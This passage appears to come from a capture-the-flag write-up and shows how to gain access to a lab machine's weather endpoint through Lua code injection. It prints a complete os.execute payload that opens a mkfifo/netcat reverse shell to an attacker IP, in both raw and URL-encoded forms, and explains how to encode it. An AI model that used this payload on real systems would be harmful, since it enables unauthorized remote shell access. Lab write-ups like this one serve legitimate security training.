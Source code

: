 ## Gaining Access Method 1 - Browser

Let's start a netcat listener. The payload we'll use is as follows:

> city=London');os.execute("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 8585 >/tmp/f")--

After sending the above payload, we get back an error. If we look at the payload in BURP, we can see that the browser is encoding it as follows:

> city=London%27);os.execute(%22rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|/bin/sh%20-i%202%3E&1|nc%2010.10.14.6%208585%20%3E/tmp/f%22)--

{% hint style="info" %}
NOTE: The browser we are using is Firefox, and so the encoding may differ depending on your browser.
{% endhint %}

Instead of letting the browser do the encoding on it's own, let's encode the payload first using Cyberchef. We'll select the "URL Encode" option, and enable the "Encode all special chars" check box.

{% embed url="https://gchq.github.io/CyberChef" %}

![](<../../.gitbook/assets/8 (2).JPG>)

Let's copy and paste the output from Cyberchef and append it to the URL as follows:

> [http://10.10.10.218/weather/forecast?city=London%27%29%3Bos%2Eexecute%28%22rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20%2Di%202%3E%261%7Cnc%2010%2E10%2E14%2E6%208585%20%3E%2Ftmp%2Ff%22%29%2D%2D](http://10.10.10.218/weather/forecast?city=London%27%29%3Bos%2Eexecute%28%22rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20%2Di%202%3E%261%7Cnc%2010%2E10%2E14%2E6%208585%20%3E%2Ftmp%2Ff%22%29%2D%2D)
